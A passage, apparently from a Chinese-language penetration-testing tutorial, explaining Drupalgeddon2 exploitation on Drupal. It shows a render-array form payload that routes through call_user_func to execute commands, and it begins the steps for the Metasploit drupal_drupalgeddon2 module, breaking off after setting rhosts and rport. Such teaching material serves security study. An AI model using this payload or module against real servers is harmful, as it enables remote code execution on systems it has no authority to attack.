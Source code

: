 如果我们传递`call_user_func(system,id)`，它将被执行为`system(id)`。因此，我们需要将`#post_render`定义为`exec()`，并将`#children`定义为我们要传递给`exec()`的值：

```
[ 
mail[#post_render][]': printf, 
mail[#type]': 'markup', 
'mail[#children]': testing123 
] 
```

另一种方法是使用`#markup`元素，该元素由互联网上提供的其他漏洞利用所使用。

# 使用 Metasploit 利用 Drupalgeddon2

还有一个 Metasploit 模块可用于利用 Drupalgeddon2 漏洞，我们可以通过在 msfconsole 中执行以下命令来使用它：

```
use exploit/unix/webapp/drupal_drupalgeddon2
```

现在，执行以下步骤来利用漏洞：

1.  要查看选项，我们运行`show options`，如下所示：

![](img/dd93cd7f-20c2-4ae7-8caa-036106f54951.png)

1.  接下来，设置`rhosts`和`rport`的选项，如下截图所示：

![](img/4a43b16c-906d-41e6-be30-5d7a22b4bf6d.png)
